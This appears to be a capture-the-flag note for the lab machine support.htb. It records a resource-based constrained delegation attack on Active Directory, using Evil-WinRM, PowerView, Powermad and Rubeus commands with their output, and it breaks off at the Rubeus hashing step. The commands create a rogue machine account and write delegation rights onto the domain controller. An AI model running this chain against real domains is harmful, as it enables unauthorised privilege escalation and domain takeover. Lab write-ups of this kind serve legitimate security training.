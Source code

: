 ### WindowsAbuse
    *Evil-WinRM* PS C:\Users\support\Documents> . .\PowerView.ps1
    *Evil-WinRM* PS C:\Users\support\Documents> . .\Powermad.ps1

#### new-machine-account

    *Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount osman -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Verbose
    Verbose: [+] Domain Controller = dc.support.htb
    Verbose: [+] Domain = support.htb
    Verbose: [+] SAMAccountName = osman$
    Verbose: [+] Distinguished Name = CN=osman,CN=Computers,DC=support,DC=htb
    [+] Machine account osman added
    *Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer osman -Properties objectsid | Select -Expand objectsid
    *Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid
    S-1-5-21-1677581083-3380853377-188903654-5601
    *Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

    *Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
    *Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
    *Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
    Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
    Verbose: [Get-DomainObject] Extracted domain 'support.htb' from 'CN=DC,OU=Domain Controllers,DC=support,DC=htb'
    Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
    Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC,OU=Domain Controllers,DC=support,DC=htb)))
    Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 225 21 0 0' for object 'DC$'

    New-MachineAccount -MachineAccount osman -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Verbose

    $ComputerSid = Get-DomainComputer osman -Properties objectsid | Select -Expand objectsid

    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)

    Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#### auth as fake computer

##### grab rc4
    .\Rubeus.exe hash /password:Password123! /user:osman /domain:support.htb

    *Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Password123! /user:osman /domain:support.htb

